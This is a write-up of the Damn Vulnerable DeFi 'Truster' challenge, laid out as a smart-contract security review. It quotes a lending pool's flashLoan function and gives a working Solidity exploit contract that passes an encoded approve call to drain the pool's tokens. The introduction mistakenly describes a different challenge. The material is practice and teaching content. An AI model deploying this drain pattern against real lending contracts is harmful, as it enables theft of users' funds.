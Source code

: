 # Truster

Truster is a [damnn vulnerable defi challenge](https://www.damnvulnerabledefi.xyz/challenges/3.html), a new pool has launched that is offering flash loans of DVT tokens for free.

# Introduction

<!-- TODO  -->
Unstoppable offers flash loans of DVT tokens for free, currently the pool has 1 milion DVT tokens in balance.

The focus of the security review was on the following:

1. Ensure that the system is implemented consistently with the intended functionality, and without unintended edge cases.
2. Identify known vulnerabilities particular to smart contract systems, as outlined in our [Smart Contract Best Practices](https://consensys.github.io/smart-contract-best-practices/), and the [Smart Contract Weakness Classification Registry](https://swcregistry.io/).

*Disclaimer:* This security review does not guarantee against a hack. It is a snapshot in time of brink according to the specific commit by a three person team. Any modifications to the code will require a new security review.

# Findings 

## Critical Risk
### Theft of all DVT tokens

**Severity:** Critical

**Context:** [`TrusterLenderPool.sol#L21-L41`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/truster/TrusterLenderPool.sol#L21-L41)

**Description:**
The contract have a function named as `flashLoan`, using this function we can borrow an amount of DVT tokens, this function receive amount to borrow `borrowAmount`, borrower address `borrower`, token address `target` and function called in token `data`.

```solidity
contract TrusterLenderPool is ReentrancyGuard {
    ...
    function flashLoan(
            uint256 borrowAmount,
            address borrower,
            address target,
            bytes calldata data
        )
            external
            nonReentrant
        {
            uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
            require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
            
            damnValuableToken.transfer(borrower, borrowAmount);
            target.functionCall(data);

            uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
            require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
        }
}
```

Using this function an attacker is able to stole all DVT Tokens, creating an exploit contract that call the `flashLoan` function, and passing this value in `data` parameter: `approve(address(this),type(uint).max)`.

```solidity
contract TrusterExploit {
    function attack(address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token); 

        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint).max);
        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
    }
}
```

In the code above, the exploit encode the data `approve(address(this),type(uint).max)` and send it via `pool.flashLoan` with the rest of the parameters, and this approve your contract to receive unlimited amount of DVT tokens.
And the following line transfers the entire TrusterLenderPool balance to the exploit contract.

**Recommendation:**
```diff
+ Do not execute data sent by an external contract within the functionCall.
- ...
```